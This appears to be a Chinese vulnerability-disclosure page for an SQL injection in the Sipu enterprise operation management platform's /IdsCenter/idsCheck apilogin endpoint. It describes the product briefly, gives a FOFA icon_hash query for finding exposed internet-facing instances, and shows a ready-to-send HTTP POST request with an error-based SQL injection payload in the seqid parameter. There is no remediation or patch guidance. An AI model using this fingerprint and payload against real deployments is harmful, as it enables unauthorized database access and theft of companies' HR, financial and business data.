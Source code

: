 # 思普企业运营管理平台apilogin存在SQL注入漏洞

思普企业运营管理平台是一款专为企业提供全方位运营管理解决方案的软件平台，旨在帮助企业实现运营流程的可视化、自动化和协同化管理，提升运营效率和管理水平。平台集成了多个功能模块，包括人力资源管理、财务管理、供应链管理、销售管理、项目管理等，通过集成各个部门功能模块，形成企业运营管理的全面解决方案。企业可以根据实际需求选择安装相应的模块，实现企业内部各个环节的协同管理。

## fofa

```javascript
icon_hash="-403479360"
```

## poc

```javascript
POST /IdsCenter/idsCheck?p=apilogin HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
X-Requested-With: XMLHttpRequest

seqid=1%27+AND+6884+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%28106%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%286884%3D6884%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28113%29%2BCHAR%28113%29%29%29--+cxaC&datasource=EOMP1
```

![image-20241128094626617](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280946689.png)